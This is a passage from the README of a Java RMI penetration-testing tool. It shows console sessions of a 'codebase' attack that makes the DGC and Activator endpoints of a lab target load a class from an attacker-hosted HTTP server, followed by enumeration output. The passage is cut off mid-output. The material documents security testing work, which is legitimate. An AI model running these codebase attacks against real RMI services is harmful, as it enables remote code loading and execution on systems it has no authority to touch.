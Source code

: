 ```console
[qtc@devbox ~]$ rmg codebase 172.17.0.2 9010 ExampleClass http://172.17.0.1:8000 --component dgc
[+] Attempting codebase attack on DGC endpoint...
[+] Using class Example with codebase http://172.17.0.1:8000/ during clean call.
[+] 
[+] 	Caught ClassCastException during codebase attack.
[+] 	Codebase attack most likely worked :)

[qtc@devbox www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [30/Nov/2021 07:26:53] "GET /ExampleClass.class HTTP/1.1" 200 -
```

*Activator*:

```console
[qtc@devbox ~]$ rmg codebase 172.17.0.2 9010 ExampleClass http://172.17.0.1:8000 --component act
[+] Attempting codebase attack on Activator endpoint...
[+] Using class ExampleClass with codebase http://172.17.0.1:8000/ during activate call.
[+]
[+] 	Caught IllegalArgumentException during codebase attack.
[+] 	Codebase attack was probably successful :)

[qtc@devbox www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [30/Nov/2021 07:27:13] "GET /ExampleClass.class HTTP/1.1" 200 -
```


#### enum

The ``enum`` action performs several checks on the specified *Java RMI* endpoint and prints the corresponding results. For a
more detailed explanation on the output generated by the ``enum`` action, you can read the corresponding [documentation
page](./docs/rmg/actions.md#enum).

```console
[qtc@devbox ~]$ rmg enum 172.17.0.2 9010
[+] RMI registry bound names:
[+]
[+]   - plain-server2
[+]     --> eu.tneitzel.rmg.server.interfaces.IPlainServer (unknown class)
[+]         Endpoint: iinsecure.example:42273 ObjID: [-49c48e31:17d6f8692ae:-7ff7, -3079588349672331489]
[+]   - legacy-service
[+]     --> eu.tneitzel.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[+]         Endpoint: iinsecure.example:42273 ObjID: [-49c48e31:17d6f8692ae:-7ffc, -2969569395601583761]
[+]   - plain-server
[+]     --> eu.tneitzel.rmg.server.interfaces.IPlainServer (unknown class)
[+]         Endpoint: iinsecure.example:42273 ObjID: [-49c48e31:17d6f8692ae:-7ff8, 1319708214331962145]
[+]
[+] RMI server codebase enumeration:
[+]
[+]   - http://iinsecure.example/well-hidden-development-folder/
[+]     --> eu.tneitzel.rmg.server.legacy.LegacyServiceImpl_Stub
[+]     --> eu.tneitzel.rmg.server.interfaces.IPlainServer
[+]
[+] RMI server String unmarshalling enumeration:
[+]
[+]   - Caught ClassNotFoundException during lookup call.
[+]     --> The type java.lang.String is unmarshalled via readObject().
[+]     Configuration Status: Outdated
[+]
[+] RMI server useCodebaseOnly enumeration:
```